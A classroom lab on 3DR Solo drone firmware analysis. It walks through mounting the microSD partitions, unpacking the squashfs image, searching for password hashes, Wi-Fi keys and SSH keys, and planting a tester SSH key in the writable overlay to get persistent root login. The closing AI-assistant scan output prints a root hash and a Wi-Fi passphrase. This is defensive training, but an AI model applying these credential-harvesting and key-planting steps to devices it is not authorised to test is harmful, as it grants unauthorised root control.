



 # Lab: UAV Firmware Analysis

**Type:** Lab
**Duration:** 60 minutes
**Section:** Day 1 – UAV & Drone

---

## Objectives

- Obtain UAV firmware from public sources
- Analyze firmware with Binwalk
- Extract and explore the embedded filesystem
- Identify potential security issues in the extracted content

---

## The Big Picture (Read This First)

**What is "firmware"?** It is just the drone's entire hard drive — its operating system, config files, and passwords — packed into a file. If you can get a copy and open it up, you can read the drone's secrets *without the drone even being powered on*.

**What you'll actually do in this lab, in one breath:** pull the microSD card out of a 3DR Solo → mount its Linux partitions on your Kali VM → find the password file → and then use an "overlay" trick to plant your own SSH key so you can log in as root whenever you want. That last step is a real **authentication bypass**.

**Two file types you'll meet:**
- **squashfs** — a *read-only, compressed* filesystem. Drones use it because it is small and can't be accidentally corrupted. You `unsquashfs` it to unpack it.
- **`/etc/passwd` and `/etc/shadow`** — the Linux user list and the (hashed) passwords. Copy both out and you can try to crack the root password offline (we finish that crack in Lab 08).

---

## Background

UAV firmware contains the operating system, configuration files, startup scripts, and binaries that run on the drone's companion computer or flight controller. Analyzing firmware reveals:

- Default credentials (hardcoded passwords, SSH keys)
- Network configuration (open ports, services, firewall rules)
- Encryption keys or certificates
- Proprietary communication protocols
- Debug artifacts left by developers

## Key tools
- **Binwalk** – firmware analysis and extraction
- **FAT (Firmware Analysis Toolkit)** – automated emulation and analysis
- Standard Linux tools: `file`, `strings`, `grep`, `find`, `cat`

---

## Phase 1: Obtain Firmware (OEM)

### Option A – Download from Manufacturer

```bash
# 3DR Solo firmware is available from the OpenSolo GitHub project
# ArduCopter firmware releases are on firmware.ardupilot.org

# Check the FCC ID for hardware certification docs with firmware links
# FCC ID for 3DR Solo: 2AC3P-800
# https://fccid.io/2AC3P-800
```

## Phase 1: Obtain Firmware (Extrac)
### Option B.1 – Extract from a Running Device

```bash
# Connect to 3DR Solo WiFi: SoloLink_XXXXXXXX
# SSH to the Solo companion computer
ssh root@10.1.1.10

# View partitions
cat /proc/mtd
lsblk

# Dump a partition (example: root filesystem)
dd if=/dev/mmcblk0p2 | gzip > solo-rootfs.img.gz

# Transfer to your laptop
# On your laptop:
scp root@10.1.1.10:/tmp/solo-rootfs.img.gz .
```

### Option B.2 – Extract from a Running Device

```bash
# Connect to 3DR Solo WiFi: SoloLink_XXXXXXXX
# SSH to the Solo companion computer and dump the mtd (partition) table
ssh root@192.168.1.1 -C "cat /proc/mtd"

# Dump a partition (example: root filesystem)
ssh root@ 192.168.1.1 -C "dd if=/dev/mmcblk0p2" | dd of=solo-rootfs.img
```

## Phase 1: Obtain Firmware (Dump)
### Option C – Extract from SD Card

- Remove microSD card from 3DR Solo UAV
- Mount partition
- Dump contents

---

## Phase 2: Going with Option C

- Pull SD card for the 3D solo UAV
- Insert the MicroSD card into the provided Gigastone USB thumbdrive
- If a format dialog pops up in Windows *DO NOT FORMAT* just hit *CANCEL*


## Kali USB passthrough
In VirtualBox you need to confgure the USB passtrough to be able to see the SD card in your Kali Linux.

- Find the devices menu in VirtualBox and click on `Generic USB2.0 Device`


## Find MicroSD file partitions

- In Kali, open a terminal, type the following command: 
```bash
fdisk -l 
```
Search for a 7-8gb file system. For our example, this will be on /dev/sdb

Two of the partitions (sdb3 and sdb4) are Linux partitions



## Create mount points 

- Create a mount point for the partitions 1-4 using the following command
```bash
sudo mkdir -p /mnt/solo/p1
sudo mkdir -p /mnt/solo/p2
sudo mkdir -p /mnt/solo/p3
sudo mkdir -p /mnt/solo/p4
```
Creates a mount points to attach the microsd firmware partitions

## Mount partitions

- Mount the solo firmware partitions as a “Read Only” file system

```bash
sudo mount -o ro /dev/sdb1 /mnt/solo/p1
sudo mount -o ro /dev/sdb2 /mnt/solo/p2
sudo mount -o ro /dev/sdb3 /mnt/solo/p3
sudo mount -o ro /dev/sdb4 /mnt/solo/p4
```
Mounts the microSD partitions as ‘read only’

## Expanding the squashfs file system

- Find out what files and directories are in the first two partitions
```bash
ls -l /mnt/solo/p1
ls -l /mnt/solo/p2
```

```bash
ls -l /mnt/solo/p1
total 75564
-rw-r--r-- 1 kali kali 68190208 Feb 13  2022  3dr-solo-imx6solo-3dr-1080p.squashfs
drwxr-xr-x 2 kali kali     2048 Feb 13  2022  'System Volume Information'
-rw-r--r-- 1 kali kali    39914 Feb 13  2022  imx6solo-3dr-1080p.dtb
-rw-r--r-- 1 kali kali   298228 Feb 13  2022  u-boot.imx
-rw-r--r-- 1 kali kali  8844864 Feb 13  2022  uImage
```

```bash
ls -l /mnt/solo/p2
total 75564
-rw-r--r-- 1 penne penne 68190208 Jan 26  2020  3dr-solo-imx6solo-3dr-1080p.squashfs
drwxr-xr-x 2 penne penne     2048 Feb 13  2022  'System Volume Information'
-rw-r--r-- 1 penne penne    39914 Jan 26  2020  imx6solo-3dr-1080p.dtb
-rw-r--r-- 1 penne penne   298228 Jan 26  2020  u-boot.imx
-rw-r--r-- 1 penne penne  8844864 Jan 26  2020  uImage
```

### Why are p1 and p2 near duplicates? How do they differ?

Expand the squashfs using the `unsquashfs` command

```bash
cp /mnt/solo/p2/3dr-solo-imx6solo-3dr-1080p.squashfs /tmp
cd /tmp
sudo su -
unsquashfs 3dr-solo-imx6solo-3dr-1080p.squashfs
ls # squashfs-root
cd squash-root
find .
```


We see some of the files we expect on a linux root filesystem, but not all.

### Why only some?


## Phase 4: Hunt for Sensitive Data

### Check for Default Credentials

```bash
# Shadow file — password hashes
cat /tmp/squashfs-root/etc/shadow
cat /mnt/solo/p3/etc/shadow

# Passwd file — user accounts
cat /tmp/squashfs-root/etc/passwd
cat /mnt/solo/p3/etc/passwd

# Look for hardcoded passwords in scripts
grep -r "password" /tmp/squashfs-root/etc --include="*.conf" --include="*.sh"
grep -r "password" /mnt/solo/p3/etc --include="*.conf" --include="*.sh"
grep -r "passwd" /tmp/squashfs-root/usr/share -l
grep -r "passwd" /mnt/solo/p3/usr/share/ -l
```
### Check for Wifi Creds

- List the files in the Solo’s /etc directory

```bash
ls /mnt/solo/p3/etc
```

-Dump the contents of the `wpa_supplicant.conf` file
```bash
cat /etc/solo/p3/wpa_supplicant.conf
```
Lists the SSID and PSK (password) of the wifi connection

---

### Check for SSH Keys

```bash
find /mnt/solo/p3 -name "*.pem" -o -name "*.key" -o -name "id_rsa" 2>/dev/null
cat /mnt/solo/p3/etc/ssh/sshd_config
```

### Check Network Services

```bash
cat /mnt/solo/p3/etc/inetd.conf 2>/dev/null
find /mnt/solo/p3 -name "*.service" | xargs grep -l "Listen\|Port" 2>/dev/null
cat /mnt/solo/p3/etc/init.d/* | grep -i "start"
```


### Check for Development Artifacts

```bash
find /mnt/solo/p4 -name "*.log" -o -name "debug*" 2>/dev/null
grep -r "TODO\|FIXME\|HACK\|debug" /mnt/solo/etc/ 2>/dev/null
```

---

## Phase 5: Analyze Startup and Services

```bash
# What runs at boot?
cat /mnt/solo/p3/etc/inittab 2>/dev/null
ls /mnt/solo/p3/etc/init.d/
cat /mnt/solo/p3/etc/rc.local 2>/dev/null

# What network services are configured?
cat /mnt/solo/p3/etc/hostapd.conf 2>/dev/null  # WiFi AP configuration
cat /mnt/solo/p3/etc/wpa_supplicant.conf 2>/dev/null
cat /mnt/solo/p3/etc/network/interfaces 2>/dev/null
```
---
## Phase 6: Root Authentication Bypass

### Examine the mounted files systems on the 3DR Solo

Run this command to examine the mounted filesystems on the 3DR Solo
```bash
ssh root@10.1.1.10 "mount | grep mmc"
```

The output should resemble the following
```bash
/dev/mmcblk0p2 on /mnt/boot type vfat (ro,relatime,fmask=0022,dmask=0022,codepage=437,iocharset=iso8859-1,shortname=mixed,errors=remount-ro)
/dev/mmcblk0p3 on /mnt/rootfs.rw type ext3 (rw,relatime,errors=continue,user_xattr,acl,barrier=1,data=ordered)
/dev/mmcblk0p4 on /log type ext4 (rw,relatime,data=ordered)
```
---
## Phase 6: Root Authentication Bypass
### Overlay File Systems

**Why this is the key to the whole attack:** the Solo protects its main system by mounting it **read-only** (`ro`) — you can't tamper with it. But it *also* mounts a second partition **read-write** (`rw`) and layers it on top. At boot, the two are merged so that anything on the writable partition wins. That's an **overlay filesystem**.

The designers did this so updates could stick. But it means: **anything we drop onto the writable partition (3) becomes part of the "protected" system on the next boot.** That is exactly how we will smuggle in our own SSH key below — the read-only protection never even sees it.

Note that partition 2 `/dev/mmc0blk2` is mounted `read only` as indicated by the `ro` flag.

Note that partition 3 `/dev/mmc0blk3` is mounted `read write` as indicated by the `rw` flag

This is because parition 3 is an `overlay` partition that allows for persistant modification of the underlying `read only` file system. Because it is `read and write`, files that we add to partition 3 will be included as part of the root filesystem during bootup.

---
## Phase 6: Root Authentication Bypass
### Mount the 3DR microSD card on your Kali VM

- Turn the 3DR UAV off.
- Remove the microSD card
- Insert the microSD card in the gigastone USB microSD card adapter
- Insert the Gigastone adapter in the laptop
- Configure USB passthrough to the Kali VM

```bash
# verify the microSD card is available 
# in the Kali VM this will likely be on /dev/sdb
sudo fdisk -l
```
---
## Phase 6: Root Authentication Bypass
### 3DR Solo MicroSD Card Partitions

The output should resemble the following
```bash
Disk /dev/sdb: 7.44 GiB, 7988051968 bytes, 15601664 sectors
Disk model: Mass-Storage    
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x0000e230

Device     Boot  Start      End  Sectors  Size Id Type
/dev/sdb1         8192   188415   180224   88M  c W95 FAT32 (LBA)
/dev/sdb2       194560   391167   196608   96M  c W95 FAT32 (LBA)
/dev/sdb3       391168   585727   194560   95M 83 Linux
/dev/sdb4       585728 15521791 14936064  7.1G 83 Linux
```
---
## Phase 6: Root Authentication Bypass
### Mount Partition 3
Mount the RW partition so that you can modify it

```bash
mkdir -p /mnt/solo/p3
mount /dev/sdb3 /mnt/solo/p3
ls -l /mnt/solo/p3
```

Your output should resemble the following

```bash
total 21
drwxr-xr-x 4 root root  1024 Feb 13  2022 etc
drwxr-xr-x 3 root root  1024 Jan 26  2020 firmware
drwxr-sr-x 3 root root  1024 Feb 13  2022 home
drwx------ 2 root root 12288 Dec 31  1969 lost+found
drwxr-xr-x 2 root root  1024 Dec 31  1969 media
drwxr-xr-x 5 root root  1024 Dec 31  1969 mnt
-rw-r--r-- 1 root root    33 Feb 13  2022 PIX_VERSION
drwxr-xr-x 3 root root  1024 Dec 31  1969 run
lrwxrwxrwx 1 root root     8 Dec 31  1969 tmp -> /var/tmp
drwxr-xr-x 4 root root  1024 Jan 26  2020 usr
drwxr-xr-x 3 root root  1024 Dec 31  1969 var
```
---
## Phase 6: Root Authentication Bypass
### Create a new set of SSH Keys for tester
The following instructions will add tester controlled ssh keys to the 3DR to allow for passwordless login.

```bash
# generate a SSH keypair
ssh-keygen -t rsa -f tester
```
Insert tester SSH key into 3DR root filesystem

```bash
sudo cp tester.pub /mnt/solo/p3/home/root/.ssh/authorized_keys
sudo chmod 0600 /mnt/solo/p3/home/root/authorized_keys
sudo chown -R root:root /mnt/solo/p3/home/root/.ssh
umount /mnt/solo/p3
```
---
## Phase 6: Root Authentication Bypass
### Reboot the 3DR Solo
* Remove the Gigastone adapter from the 3DR UAV
* Remove the microSD card from the Gigastone
* Insert the microSD card into the 3DR Solo UAV
* Power on the Controller, if not already powered on
* Power on the 3DR Solo
* On your laptop, join the wifi for your 3DR

---
## Phase 6: Root Authentication Bypass
Login to the 3DR Solo with the injected SSH Keys
```bash
ssh1 -i tester root@10.1.1.10
```

### Congratulations on your Authentication Bypass Attack
---

---

## Expected Findings: 3DR Solo

| Finding | Location | Severity |
|---------|----------|----------|
| SSH root access enabled | /etc/ssh/sshd_config | High |
| WiFi passphrase in config | /etc/wpa_supplicant.conf | High |
| Telnet service enabled | /etc/inetd.conf | High |
| No firewall configuration | (absent) | Medium |
| Build artifacts / debug logs | /var/log/, /tmp/ | Low |


---
## Cleanup 

Once you have found all the content you need unmounnt the microsd card with the following command: 

```bash
sudo umount /mnt/solo/p1
sudo umount /mnt/solo/p2
sudo umount /mnt/solo/p3
sudo umount /mnt/solo/p4
```
---

## Discussion Questions

1. What is the impact of a compromised root password on this drone?
2. If the WiFi passphrase is embedded in firmware, what does that mean for all 3DR Solo drones using the same firmware version?
3. How would you responsibly disclose a firmware vulnerability to a manufacturer?
4. What security controls would you add to this firmware?

---

## VSCode / Co-Pilot

```
we are performing a security audit on a 3dr solo we own to determine if it is cyber secure. scan the subdirectories for security misconfigurations and hardcoded passwords, ssh keys, tokens and other credentials
```

```
A scan of the extracted filesystem snapshot found several likely security issues.

Findings:

High risk:

sshd_config allows PermitRootLogin and PermitEmptyPasswords, which is a weak SSH posture.
wpa_supplicant.conf, hostapd.conf, and hostapd.base contain hardcoded Wi-Fi credentials and a default SSID/passphrase pattern.

Medium risk:

passwd and shadow include a root account with a stored password hash.
ssh_host_rsa_key, ssh_host_dsa_key, and ssh_host_ecdsa_key are private SSH host keys stored on disk.
authorized_keys exists, which indicates SSH public-key authorization is in use.

Low/no obvious third-party tokens found:

I did not find obvious GitHub/Slack/AWS/etc. token patterns in the scanned text files.
Bottom line:

The device image appears to have weak SSH defaults, hardcoded network credentials, and retained private SSH material. That is not cyber-secure by modern standards.

Recommended next steps:

Disable root SSH login and empty-password login.
Rotate the Wi-Fi passphrase and SSH host keys.
Change the root password and review any authorized SSH keys.

```

```
I scanned squashfs-root and found the following credential-related artifacts:

SSH/private-key material

authorized_keys exists and contains an SSH public key.
home/root/.ssh/id_rsa-mav-df-xfer exists as a private SSH key file.
id_rsa-mav-df-xfer.pub exists as the matching public key.

Account credential material

shadow contains a root password hash:
root:I8hkLIWAASD4Q:18287:0:99999:7:::
passwd contains the root account entry.
SSH misconfigurations

sshd_config has:
PermitRootLogin yes
PermitEmptyPasswords yes

Hardcoded Wi-Fi credentials

hostapd.orig contains:
wpa_passphrase=sololink
Other credential-like strings

openssl.cnf contains example placeholder text such as input_password = secret and output_password = secret, but these appear to be sample/template values rather than live credentials.
API/token-style secrets

I did not find obvious third-party service tokens (GitHub/AWS/Slack/etc.) in this directory.
MAI-Code-1-Flash • 1x
```